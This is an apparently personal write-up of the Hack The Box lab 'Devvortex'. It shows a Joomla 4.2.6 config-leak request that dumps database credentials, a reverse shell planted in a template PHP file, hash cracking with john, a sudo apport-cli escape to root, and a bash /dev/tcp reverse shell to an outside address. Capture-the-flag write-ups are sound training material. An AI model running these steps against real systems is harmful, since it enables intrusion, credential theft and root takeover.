





HTB: Devvortex
Using ffuf we find a subdomain of dev
robots.txt
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html
User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
http://dev.devvortex.htb/administrator/
This is a joomla login page
Joomla is running version 4.2.6 which we found at http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
4.2.6 has a known exploit
curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes"* Connection #0 to host dev.devvortex.htb left intact
:{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
We can then use these creds to sign into joomla
lewis:P4ntherg0t1n5r3c0n##
users found in joomla
lewis
logan
We can edit some php files located at http://dev.devvortex.htb/administrator/templates/cassiopeia/error.php and add a reverse shell
Click system > Site templates > Cassiopeia Details and files

We edit the php files here and then we can trigger the shell by going to dev.devvortex.htb/administrator/templates/cassiopeia/
and we get a shell as www-data

Linpeas shows nothing
I connected to the mysql database with the creds found above for lewis and we can get a hash for logan
650 | logan paul | logan | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

logan:tequieromucho
We can then SSH in as logan
Logan can run /usr/bin/apport-cli as sudo
I googled it and I found this github POC https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb
I spent a while trying to create a .crash file for the script to work properly but had no luck.
After a bunch of messing around with it I got it to work. This essentially allows us to enter any command as root.
sudo /usr/bin/apport-cli /usr/bin/apport-cli
-v
!(any command)

We can get a full shell just by executing a bash command
bash -i >& /dev/tcp/10.10.15.6/1337 0>&1
